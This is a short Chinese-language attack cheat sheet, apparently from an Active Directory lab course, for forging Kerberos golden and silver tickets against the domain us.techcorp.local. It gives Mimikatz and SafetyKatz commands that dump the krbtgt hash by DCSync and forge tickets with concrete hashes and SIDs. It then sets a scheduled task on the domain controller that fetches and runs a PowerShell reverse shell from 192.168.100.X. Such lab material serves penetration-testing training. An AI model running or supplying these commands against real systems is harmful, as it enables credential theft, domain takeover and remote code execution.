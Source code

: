 # Golden Ticket（金票）
使用krbtgt的哈希制作金票

## mimikatz
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

## SafetyKatz

拿到krbtgt哈希
```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

制作金票
```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

#  Silver Ticket（银票）

下面例子使用DC的哈希制作一张银票
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /target:us-dc.us.techcorp.local /service:cifs /rc4:f4492105cb24a843356945e45402073e /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

上面是请求CIFS服务

如果请求HOST服务，就会允许在靶机上设置一个定时任务

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /target:us-dc.us.techcorp.local /service:HOST /rc4:f4492105cb24a843356945e45402073e /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

设置定时任务
```
schtasks /create /S us-dc.us.techcorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object
Net.WebClient).DownloadString(''http://192.168.100.X:8080/Invoke-PowerShellTcp.ps1''')'"
```
执行定时任务
```
schtasks /Run /S us-dc.us.techcorp.local /TN "STCheck"
```
